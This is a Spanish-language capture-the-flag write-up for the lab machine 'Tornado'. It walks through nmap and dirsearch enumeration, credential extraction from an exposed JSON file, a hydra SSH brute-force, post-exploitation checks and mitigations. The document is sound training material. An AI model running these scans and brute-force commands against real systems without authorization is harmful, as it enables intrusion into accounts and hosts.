## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

## Resumen del Ataque

La máquina Tornado se compromete a través de una cadena de fallos de **exposición de información** más que de una vulnerabilidad técnica compleja. Un listado de directorios mal configurado en `/database/` expone un archivo `users` en formato JSON con credenciales en texto claro. Tras normalizar los nombres de usuario (mayúsculas → minúsculas) y extraer las contraseñas, se realiza un ataque de fuerza bruta dirigido contra el servicio SSH con `hydra`, obteniendo acceso válido como el usuario `samuel`. Desde ahí se enumera el sistema de ficheros en busca de binarios SUID, permisos `sudo` y directorios de otros usuarios, hallando finalmente la flag en `/var/www/flag.txt`, accesible por permisos de lectura sin necesidad de escalada de privilegios adicional.

**Vector de compromiso:** Information Disclosure → Credential Harvesting → Brute Force (SSH) → Enumeración post-explotación → Flag por permisos débiles.

---

## Técnicas Usadas

| Fase                        | Técnica                                                                            | Herramienta                      |
| --------------------------- | ---------------------------------------------------------------------------------- | -------------------------------- |
| Reconocimiento              | Escaneo de puertos completo (TCP SYN)                                              | `nmap -p- -sS`                   |
| Reconocimiento              | Detección de versiones y scripts por defecto                                       | `nmap -sC -sV`                   |
| Enumeración web             | Descubrimiento de directorios/rutas ocultas                                        | `dirsearch`                      |
| Enumeración web             | Explotación de listado de directorios (Directory Listing / Information Disclosure) | Navegador / `curl`               |
| Recolección de credenciales | Extracción y parseo de JSON con credenciales en texto claro                        | `jq`                             |
| Preparación de ataque       | Normalización de wordlist de usuarios (mayúsculas/minúsculas)                      | Edición manual                   |
| Acceso inicial              | Ataque de fuerza bruta / credential stuffing contra SSH                            | `hydra`                          |
| Post-explotación            | Enumeración de usuarios del sistema                                                | `/etc/passwd`                    |
| Post-explotación            | Búsqueda de vectores de escalada de privilegios (SUID)                             | `find -perm -4000`               |
| Post-explotación            | Verificación de privilegios sudo                                                   | `sudo -l`                        |
| Post-explotación            | Enumeración de directorios de aplicación web                                       | Navegación manual del filesystem |

---

## Desarrollo

### 1. Reconocimiento de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### 2. Detección de servicios y versiones

```
nmap -p 22,80 -sC -sV -oN allports 172.17.0.2
```



### 3. Enumeración web

Página principal sin hallazgos relevantes en el código fuente más allá del texto plano.

```
http://172.17.0.2/
```



```
dirsearch -u http://172.17.0.2/ --exclude-status 403,404,500 -e php,txt,html
```



### 4. Explotación del listado de directorios

```
http://172.17.0.2/database/
```



### 5. Extracción de credenciales

El archivo `users` contiene un JSON con credenciales en texto claro para 5 usuarios. Se extraen nombres y contraseñas por separado:

```bash
cat users | jq -r '.[].nombre' > user.txt
cat users | jq -r '.[].password' > pass.txt
```

Los nombres se normalizan manualmente a minúsculas (los servicios Unix esperan login en minúsculas).





### 6. Ataque de fuerza bruta contra SSH

```
hydra -L users.txt -P pass.txt ssh://172.17.0.2 -t 64 -f
```



### 7. Acceso inicial y enumeración post-explotación

```
ssh samuel@172.17.0.2
whoami
```



```
grep bash /etc/passwd
```



```
sudo -l
```



```
find / -perm -4000 -type f 2>/dev/null
# Solo binarios SUID estándar del sistema, sin vectores explotables
```



### 8. Localización y captura de la flag

```
cd /var/www
ls
```




```
cat flag.txt
```



---

## Medidas de Mitigación

|Hallazgo|Riesgo|Recomendación|
|---|---|---|
|Listado de directorios habilitado en `/database/`|Alto|Deshabilitar `Options -Indexes` (Apache) o `autoindex off;` (nginx) en el servidor web. Nunca exponer directorios de datos bajo la raíz web pública.|
|Credenciales almacenadas en texto claro (JSON)|Crítico|Nunca almacenar contraseñas en texto claro. Usar hashing con algoritmos lentos y con salt (bcrypt, Argon2, scrypt).|
|Archivos de base de datos accesibles vía HTTP|Crítico|Los datos de aplicación (usuarios, transacciones, logs) nunca deben residir en una ruta accesible por el servidor web. Moverlos fuera del `webroot`.|
|SSH sin protección ante fuerza bruta|Alto|Implementar `fail2ban` o `sshguard`, limitar intentos de autenticación (`MaxAuthTries`), y preferiblemente forzar autenticación por clave pública en lugar de contraseña.|
|Reutilización de contraseñas simples/predecibles por usuario|Medio|Política de contraseñas robusta, MFA en accesos remotos, rotación periódica de credenciales.|
|Ausencia de segmentación entre usuarios del sistema|Bajo-Medio|Aplicar el principio de mínimo privilegio; revisar permisos de home directories y archivos sensibles (`user.txt` en `/home/diego` con permisos de lectura amplios).|
|Exposición de banner de versión de servicios (nginx, OpenSSH)|Bajo|Ocultar cabeceras de versión (`server_tokens off;` en nginx) para reducir la superficie de fingerprinting, aunque no sustituye el parcheo regular.|

---

## Lecciones Aprendidas

- Priorizar siempre la revisión de rutas de enumeración web básicas (`dirsearch`/`gobuster`) antes de asumir que la única superficie de ataque es la aplicación visible.
- Los archivos de "base de datos" expuestos por error de configuración son una fuente habitual de credenciales reales en entornos de CTF y en producción.
- Normalizar wordlists (case sensitivity) es un paso crítico y fácil de pasar por alto antes de lanzar ataques de fuerza bruta.